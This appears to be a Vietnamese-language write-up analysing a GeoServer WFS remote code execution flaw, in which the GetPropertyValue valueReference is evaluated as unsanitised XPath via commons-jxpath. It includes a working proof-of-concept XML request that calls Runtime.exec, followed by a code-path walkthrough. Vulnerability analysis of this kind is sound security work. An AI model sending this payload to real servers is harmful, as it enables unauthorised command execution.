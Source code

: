 Thông tin trả về là các vector để hỗ trợ việc vẽ ra bản đồ của các bang:
```xml
<?xml version="1.0" encoding="UTF-8"?><wfs:ValueCollection xmlns:ws2="ws2" xmlns:xs="http://www.w3.org/2001/XMLSchema" ..><wfs:member><ws2:the_geom><gml:MultiSurface srsDimension="2" srsName="urn:ogc:def:crs:EPSG::4326"><gml:surfaceMember><gml:Polygon srsDimension="2"><gml:exterior><gml:LinearRing><gml:posList>37.51099 -88.071564 37.476273 -88.087883 37.442852 -88.311707 37.409309 -88.359177 37.420292 -88.419853 37.400757 -88.467644 37.296852 -88.511322 37.257782 -88.501427 37.205669 -88.450699 37.15691 -88.422516 37.098671 -88.45047 37.072144 -88.476799 37.06818 -88.4907 37.06477 -88.517273 37.072815 -88.559273 37.109047 -88.61422 37.13541 -88.68837 37.141182 -88.739113 37.152107 -88.746506 37.202194 -88.863289 37.218407 -88.932503 37.220036 -88.993172 37.18586 -89.065033 37.112137 -89.116821 37.093185 -89.146347 37.064236 -89.169548 37.025711 -89.174332 36.99844 -89.150246 36.988113 -89.12986 36.986771 -89.193512 37.028973 -89.210052 37.041733 -89.237679 37.087124 -89.264053 37.091244 -89.284233 37.085384 -89.303291 37.060909 -89.3097 37.027733 -89.264244 37.008686 -89.262001 36.999207
```

Theo mô tả của CVE và các POC đã có thì phần `valueReference` mà người dùng truyền vô chính là XPath mà không được làm sạch, dẫn đến RCE thông qua `commons-jxpath`.

Vậy nếu để `valueReference` là `exec(java.lang.Runtime.getRuntime(),"calc")` thì ta đã RCE thành công.

```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'
 valueReference='exec(java.lang.Runtime.getRuntime(),"calc")'>
  <wfs:Query typeNames='topp:states'/>
</wfs:GetPropertyValue>
``` 

Tại sao lại như vậy? hãy cùng vào phân tích workflow của nó

Khi gửi POST request đến `/geoserver/wfs`, đầu tiền nó sẽ đọc tag ngoài cùng đó là `wfs:GetPropertyValue` để biết được cần thực hiện chức năng nào. Sau đó nó sẽ tìm đến hàm tương ứng trong class `wfs` và thực thi với các tham số người dùng truyền vô. Ở đây `operation` chính là `GetPropertyValue`

![alt text](image-1.png)

Hàm `GetPropertyValue` ở trong class `DefaultWebFeatureService20` (wfs), hàm này sẽ chuyển tiếp qua class cùng tên để xử lí `GetPropertyValue`

![alt text](image-2.png)

Trong hàm `run` của class `GetPropertyValue`, nó sẽ lấy giá trị của `referenceValue` mình chuyền vào và chạy hàm `evaluate`. Đây cũng là dòng lệnh sẽ gây ra lỗi RCE.
![alt text](image-3.png)

Hãy cùng xem hàm `evaluate` này nó làm gì
![](image-4.png)

Để giải thích cho nhưng gì hàm này làm, hãy quay lại với request ví dụ của use case bình thường:
```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'
 valueReference='the_geom'>
  <wfs:Query typeNames='topp:states'/>
</wfs:GetPropertyValue>
```
Mục đích của request này là lấy tập dữ liệu vector địa lý `the_geom` của layer `topp:states` (dữ liệu địa lí của các bang tại Mỹ). 
![alt text](image-5.png)
